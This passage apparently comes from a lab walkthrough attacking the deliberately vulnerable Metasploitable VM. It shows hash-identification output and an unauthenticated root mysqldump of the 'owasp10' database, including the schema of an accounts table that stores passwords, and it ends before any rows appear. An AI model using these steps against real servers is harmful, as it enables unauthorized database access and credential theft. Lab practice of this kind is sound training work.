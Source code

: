    -------------------------------------------------------------------------
 HASH: 5f4dcc3b5aa765d61d8327deb882cf99

Possible Hashs:
[+]  MD5
[+]  Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))


Owasp10 Database

The owasp10 database has some juicy info too. One table has plain-text passwords.

root@morpheus:~/box/metasploitable# mysqldump --host=10.0.0.27 -u root owasp10 > owasp10.sql
root@morpheus:~/box/metasploitable# cat owasp10.sql
-- MySQL dump 10.13  Distrib 5.5.47, for debian-linux-gnu (x86_64)
--
-- Host: 10.0.0.27    Database: owasp10
-- ------------------------------------------------------
-- Server version	5.0.51a-3ubuntu5

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Not dumping tablespaces as no INFORMATION_SCHEMA.FILES table on this server
--

--
-- Table structure for table `accounts`
--

DROP TABLE IF EXISTS `accounts`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `accounts` (
  `cid` int(11) NOT NULL auto_increment,
  `username` text,
  `password` text,
  `mysignature` text,
  `is_admin` varchar(5) default NULL,
  PRIMARY KEY  (`cid`)
) ENGINE=MyISAM AUTO_INCREMENT=17 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `accounts`
--
